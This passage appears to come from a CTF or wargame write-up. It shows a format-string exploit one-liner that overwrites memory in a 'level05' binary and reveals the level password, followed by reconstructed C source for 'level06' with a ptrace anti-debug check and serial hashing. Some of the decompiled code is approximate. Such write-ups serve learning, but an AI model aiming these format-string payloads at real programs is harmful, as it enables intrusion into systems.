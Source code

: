 ```
(python -c "print '\x08\x04\x97\xe0'[::-1] + '\x08\x04\x97\xe2'[::-1] + '%55414x' + '%10\$hn' + '%10113x' + '%11\$hn'" ; cat)| ./level05
```

And we got our password `h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq`
![image](https://hackmd.io/_uploads/ByxB0VhI6.png)

## level06 (enumeration protction / direct jumps)
```clike=
int auth(char *logininput, unsigned int serial_input)
{
    int loginlen;
    int count;
    unsigned int enc_logininput;
    
    logininput[strcspn(logininput, "\n")] = 0;
    loginlen = strlen(logininput);
    if (loginlen < 5) return 1;
    enc_logininput = (logininput[3] ^ 4919) + 6221293;
    if (ptrace(PTRACE_TRACEME, 0, 1, 0) == -1)
    {
        puts("\033[32m.---------------------------.");
        puts("\033[31m| !! TAMPERING DETECTED !!  |");
        puts("\033[32m'---------------------------'");
        return 1;
    }
    count = 0;
    while(count < loginlen)
    {
        // TODO encryption logic here
        if (logininput[count] <= 31)
            return 1;
        
        int stage1 = logininput[count] ^ enc_logininput;
        int stage2 = 0x88233b2b * stage1;
		int stage3 = (stage1 - stage2) >> 1;
        int stage4 = (stage3 + stage2) >> 10 * 1337;
        enc_logininput += (stage1 - stage4);
        
        ++count;
    }
    if (enc_logininput == serial_input)
        return 0;
    return 1;
}

int main(int argc, char **argv)
{
    char logininput[?];
    unsigned int serial_input;
    
    puts("***********************************");
    puts("*    level06    *");
    puts("***********************************");
    printf("-> Enter Login:");
    fgets(logininput, 32, stdin);
    puts("***********************************");
    puts("*    NEW ACOUNT DETECTED    *");
    puts("***********************************");
    printf("-> Enter Serial:");
    scanf("%u", &serial_input);
    
```